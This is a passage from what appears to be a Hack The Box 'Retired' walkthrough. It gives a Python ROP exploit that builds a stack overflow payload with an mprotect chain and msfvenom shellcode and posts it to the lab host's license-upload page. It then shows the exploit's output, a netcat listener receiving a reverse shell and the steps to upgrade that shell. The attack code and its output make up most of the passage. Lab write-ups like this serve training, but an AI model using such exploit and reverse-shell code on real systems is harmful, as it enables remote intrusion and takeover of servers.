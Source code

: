 ```python
pop_rdi  = rop.rdi[0]
pop_rsi  = rop.rsi[0]
pop_rdx  = rop.rdx[0]
jmp_rsp  = rop.jmp_rsp[0]
## Set offset to the value we found earlier by causing a segfault
offset  = 520
# Build payload using all of the above
payload = b'A' * offset
payload += p64(pop_rdi) + p64(stack_start)
payload += p64(pop_rsi) + p64(stack_length)
payload += p64(pop_rdx) + p64(7)
payload += p64(mprotect)
payload += p64(jmp_rsp)
payload += buf
# Post payload to the binary on the box to crash it like we did locally
requests.post('http://10.10.11.154/activate_license.php', files = { "licensefile": payload } )
```

Save this once you've updated it with the current values for libc, libsql, stack and your msfvenom shellcode. Start a nc listening on the port you chose then run the script:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# python pencer_exploit.py
[*] '/root/htb/retired/activate_license'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 190 cached gadgets for './libc-2.31.so'
[*] Loaded 162 cached gadgets for './libsqlite3.so.0.8.6'
```

## Reverse Shell

Switch to our waiting nc to see we finally have a reverse shell to the box:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.154] 44748
```

First thing as always is upgrade to a better shell:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# nc -nlvp 4444
listening on [any] 4444 ...
/usr/bin/python3 -c 'import pty;pty.spawn("/usr/bin/bash")'
www-data@retired:/var/www$ ^Z
zsh: suspended  nc -nlvp 4444
┌──(root㉿kali)-[~/htb/retired]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
www-data@retired:/var/www$ stty rows 60 cols 236
www-data@retired:/var/www$ export TERM=xterm
```
